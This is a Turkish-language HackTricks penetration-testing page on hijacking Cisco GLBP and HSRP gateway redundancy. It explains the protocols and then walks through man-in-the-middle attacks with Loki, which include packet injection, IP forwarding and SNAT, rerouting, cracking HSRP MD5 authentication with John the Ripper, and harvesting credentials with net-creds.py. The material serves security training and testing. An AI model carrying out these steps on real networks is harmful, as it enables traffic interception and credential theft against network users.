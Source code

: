 # GLBP ve HSRP Saldırıları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR gönderin.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP Kaçırma Genel Bakış

### FHRP Hakkında Bilgiler
FHRP, birden fazla yönlendiriciyi tek bir sanal birimde birleştirerek ağın sağlamlığını sağlamayı amaçlayan bir protokol grubudur, böylece yük dağıtımı ve hata toleransı artırılır. Cisco Systems, bu pakette GLBP ve HSRP gibi önde gelen protokoller tanıttı.

### GLBP Protokolü Hakkında Bilgiler
Cisco'nun yarattığı GLBP, TCP/IP yığınında çalışır ve iletişim için UDP'yi 3222 numaralı portta kullanır. GLBP grubundaki yönlendiriciler 3 saniyelik aralıklarla "hello" paketleri alışverişi yaparlar. Bir yönlendirici bu paketleri 10 saniye boyunca göndermezse çevrimdışı olarak kabul edilir. Bununla birlikte, bu zamanlayıcılar sabit değildir ve değiştirilebilir.

### GLBP İşlemleri ve Yük Dağıtımı
GLBP, tek bir sanal IP ile birleştirilmiş birden fazla sanal MAC adresi kullanarak yönlendiriciler arasında yük dağıtımını sağlayarak öne çıkar. Bir GLBP grubunda, her yönlendirici paket iletimine dahil olur. HSRP/VRRP'nin aksine, GLBP şu mekanizmalar aracılığıyla gerçek yük dengelemesi sunar:

- **Ana Bilgisayara Bağımlı Yük Dengeleme:** Bir ana bilgisayara sürekli AVF MAC adresi atamasını korur, istikrarlı NAT yapılandırmaları için önemlidir.
- **Round-Robin Yük Dengeleme:** Varsayılan yaklaşım, isteyen ana bilgisayarlara AVF MAC adresi atamasını sırayla değiştirir.
- **Ağırlıklı Round-Robin Yük Dengeleme:** Önceden belirlenmiş "Ağırlık" metriklerine dayalı olarak yükü dağıtır.

### GLBP'de Ana Bileşenler ve Terimler
- **AVG (Aktif Sanal Ağ Geçidi):** MAC adreslerini eş yönlendiricilere atamaktan sorumlu ana yönlendirici.
- **AVF (Aktif Sanal Yönlendirici):** Ağ trafiğini yönetmek için belirlenen bir yönlendirici.
- **GLBP Önceliği:** AVG'yi belirleyen bir metrik, varsayılan olarak 100'den başlar ve 1 ile 255 arasında değişir.
- **GLBP Ağırlığı:** Bir yönlendiricideki mevcut yükü yansıtır, manuel olarak veya Nesne İzleme aracılığıyla ayarlanabilir.
- **GLBP Sanal IP Adresi:** Bağlı tüm cihazlar için ağın varsayılan ağ geçidi olarak hizmet verir.

Etkileşimler için GLBP, ayrılmış 224.0.0.102 çoklu yayın adresini ve UDP portunu 3222 kullanır. Yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri gönderir ve bir paket 10 saniyelik bir süre içinde kaçırılırsa işlevsiz kabul edilir.

### GLBP Saldırı Mekanizması
Bir saldırgan, en yüksek öncelik değerine (255) sahip bir GLBP paketi göndererek ana yönlendirici haline gelebilir. Bu, trafik yakalama veya yönlendirme izni veren DoS veya MITM saldırılarına yol açabilir.

### Loki ile GLBP Saldırısı Gerçekleştirme
[Loki](https://github.com/raizo62/loki_on_kali), öncelik ve ağırlığı 255'e ayarlanmış bir paket enjekte ederek bir GLBP saldırısı gerçekleştirebilir. Saldırı öncesi adımlar, Wireshark gibi araçlar kullanarak sanal IP adresini, kimlik doğrulama varlığını ve yönlendirici öncelik değerlerini toplamayı içerir.

Saldırı Adımları:
1. Promiskü moduna geçin ve IP yönlendirmeyi etkinleştirin.
2. Hedef yönlendiriciyi tanımlayın ve IP'sini alın.
3. Bir İsteksiz ARP oluşturun.
4. AVG'yi taklit eden kötü amaçlı bir GLBP paketi enjekte edin.
5. Saldırganın ağ arabirimine GLBP sanal IP'sini yansıtan ikincil bir IP adresi atayın.
6. Tam trafik görünürlüğü için SNAT uygulayın.
7. İnternet erişimini orijinal AVG yönlendiricisi üzerinden devam ettirmek için yönlendirmeyi ayarlayın.

Bu adımları takip ederek, saldırgan kendisini ağ trafiğini, şifrelenmemiş veya hassas verileri içeren bir "adam ortasında" konumlandırabilir ve analiz edebilir.

Demonstrasyon için gereken komut parçaları aşağıda verilmiştir:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP Saldırı Mekanizması
HSRP saldırıları, En Yüksek Öncelik değeri enjekte edilerek Aktif Yönlendirici'nin rolünü zorla ele geçirmeyi içerir. Bu, Man-In-The-Middle (MITM) saldırısına yol açabilir. Temel saldırı öncesi adımlar arasında HSRP kurulumu hakkında veri toplamak bulunur, bu da trafiği analiz etmek için Wireshark kullanılarak yapılabilir.

#### HSRP Kimlik Doğrulamasını Atlayan Adımlar
1. HSRP verilerini içeren ağ trafiğini .pcap dosyası olarak kaydedin.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. .pcap dosyasından MD5 karmaşalarını hsrp2john.py kullanarak çıkarın.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper kullanarak MD5 karmaşalarını kırın.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki ile HSRP Enjeksiyonu Gerçekleştirme**

1. HSRP reklamlarını tanımlamak için Loki'yi başlatın.
2. Ağ arayüzünü promiscuous moduna ayarlayın ve IP yönlendirmeyi etkinleştirin.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki'yi belirli yönlendiriciyi hedeflemek, kırılmış HSRP şifresini girmek ve Aktif Yönlendirici'yi taklit etmek için gerekli yapılandırmaları yapmak için kullanın.
4. Aktif Yönlendirici rolünü aldıktan sonra, ağ arayüzünü ve IP tablolarını yapılandırarak meşru trafiği engelleyin.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Trafik yönlendirmek için yönlendirme tablosunu değiştirin.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Yakalanan trafiğe net-creds.py veya benzer bir yardımcı programı kullanarak kimlik bilgilerini yakalayın.
```shell
sudo python2 net-creds.py -i eth0
```

Bu adımları uygulamak, saldırganı GLBP ele geçirmesi için yapılan işleme benzer bir şekilde trafiği engellemek ve manipüle etmek için bir konuma yerleştirir. Bu, HSRP gibi yedeklilik protokollerindeki zafiyeti ve sağlam güvenlik önlemlerine olan ihtiyacı vurgular.
